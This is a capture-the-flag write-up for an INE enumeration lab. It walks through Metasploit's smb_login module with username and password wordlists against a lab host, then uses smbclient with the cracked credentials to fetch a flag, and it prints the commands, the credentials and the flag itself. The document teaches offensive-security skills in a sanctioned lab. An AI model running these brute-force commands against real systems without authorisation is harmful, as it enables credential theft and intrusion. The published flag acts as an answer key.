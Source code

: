 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use Metasploit to brute force SMB credentials using user and password wordlists. Once valid credentials are found, access the SMB share and retrieve the flag.

---

## Tools Used

- Metasploit (`msfconsole`)
- Wordlists (`users.txt` and `unix_passwords.txt`)
- `smbclient` to access shares after cracking

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```
![Step 1](./1.png)

### 🔹 Step 2: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```
![Step 2](./2.png)

### 🔹 Step 3: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```
![Step 3](./3.png)

### 🔹 Step 4: Valid Credentials Found
```yaml
josh : purple
```
![Step 4](./4.png)

### 🔹 Step 5: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```
![Step 5](./5.png)

### 🔹 Step 6: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```
Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.
![Step 6](./6.png)

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.

## Files Included
- `users.txt`: Wordlist used for usernames
- `unix_passwords.txt`: Wordlist used for passwords
- Screenshots: 1.png → 6.png (steps of the challenge)
